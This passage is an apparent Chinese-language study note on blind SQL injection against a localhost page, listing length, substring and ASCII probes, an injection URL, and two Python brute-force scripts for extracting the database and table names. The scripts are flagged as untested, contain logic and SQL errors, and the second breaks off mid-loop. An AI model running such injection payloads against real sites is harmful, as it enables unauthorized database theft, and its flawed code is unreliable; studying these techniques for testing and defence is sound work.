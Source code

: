 盲注？听我说谢谢你，因为有你，温暖了四级。太难受了盲注。有时候，开发者会屏蔽报错信息，只会显示两种信息，导致无法通过报错信息进行注入。这种情况叫做盲注，根据使用的手法不同盲注的类型也不一样。但是原理是相同的

##### 盲注方式

```sql
通过长度判断:char_length():char_length(database())>=int
通过字符判断:substr():substr(database(),1,1) =str
通过 ascII 码判断:ascii():ascii(substr(database(),1,1)) =int
```

##### 获取数据库名长度

```sql
http://localhost/?id=a' and char_length(database())>=int -- qqqqq
-- int 是数字，假设数据库名长度为7，则int大于7的时候返回其他内容
```

##### 获取数据库名

python 脚本(未测试)

```python
import requests

payload = ''
num_1 = 1
Raw_data_length = requests.get('http://localhost/?id=a')
while True:
    url_database_length = f"http://localhost/?id=a' and char_length(database())>={num_1} -- qqqqq"
    message = requests.get(url_database_length)
    if len(message.text) > len(Raw_data_length.text):
        break
    num_1 += 1

for i in range(num_1):
    for num_2 in range(33, 126):
        url_database_name = f"http://localhost/?id=a' and ascii(substr(database(),{i},1))={num_2} -- qqqqq"
        message = requests.get(url_database_name)
        if len(message.text) == len(Raw_data_length.text):
            payload += chr(num_2)

print(payload)
```

##### 获取表名

```python
import requests

payload = ''
num_1 = 1
Raw_data_length = requests.get('http://localhost/?id=a')
count = 0
while True:
    url_tables_count = f"http://localhost/?id=a' and select count(table_name) from information_schema.table where " \
                      f"table_schema =database() >= {count} "
    message = requests.get(url_tables_count)
    if len(message.text) > len(Raw_data_length.text):
        break
    while True:
        url_table_name_length = f"http://localhost/?id=a' and char_length((select table_name from " \
                              f"information_schema.tables " \
                              f"where table_schema=database() limit {count},1))>={num_1} -- qqqqq "
        message = requests.get(url_table_name_length)
```